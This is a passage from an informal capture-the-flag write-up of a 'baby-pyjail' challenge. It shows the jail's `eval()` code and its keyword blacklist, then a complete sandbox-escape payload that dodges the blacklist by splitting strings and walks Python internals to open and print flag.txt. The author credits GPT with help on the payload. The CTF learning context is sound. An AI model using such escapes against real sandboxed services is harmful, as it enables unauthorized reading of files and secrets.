 i didn't know that the `alarm()` syscall did that but i guess now i know :p i won't make this mistake again!!

# misc
# baby-pyjail
this was my first time doing a pyjail and i learned a bunch about how cool / messed up python is in letting anything fly essentially

the jail is essentially an `eval()` that checks for any blacklisted full words (not substrings!!!)

```python
exp = input("> ")
check(exp)
try:
    eval(exp, {})
except Exception as e:
    print(f"Error: {e}")
```

the check function looks like this:
```python
blacklist = ["eval", "exec", "compile", "open", "import", "help", "breakpoint", "builtins", "locals", "globals", "flag"]

def check(exp):
    try:
        if not exp.isascii():
            print("bad ascii character detected!")
            exit()

        for banned in blacklist:
            if banned in exp:
                print(f"bad word detected: {banned}")
                exit()
    except Exception as e:
        print(f"Error during check: {e}")
        exit()
```

so we can't run those specific words, but there is a very cool [pyjail cheatsheet](https://shirajuki.js.org/blog/pyjail-cheatsheet) that shows a lot of cool ways to get around stuff like this. and also, `flag` is banned but not `fl+ag` which makes it easy to get around, same goes for everything really

with some throwing shit and seeing what sticks and some gpt help, it came up with a nice approach to get the flag:

```python
(cls := [c for c in ().__class__.__base__.__subclasses__() if c.__module__=="warni"+"ngs" and c.__name__=="catch_war"+"nings"][0], g_string := "__glo"+"bals__", g_dict := cls.__init__.__getattribute__(g_string), b_string := "__built"+"ins__", b_dict := g_dict[b_string], o_func := b_dict["op"+"en"], meow := o_func("fla"+"g.txt").read(), p := b_dict["pr"+"int"], p(meow))

```
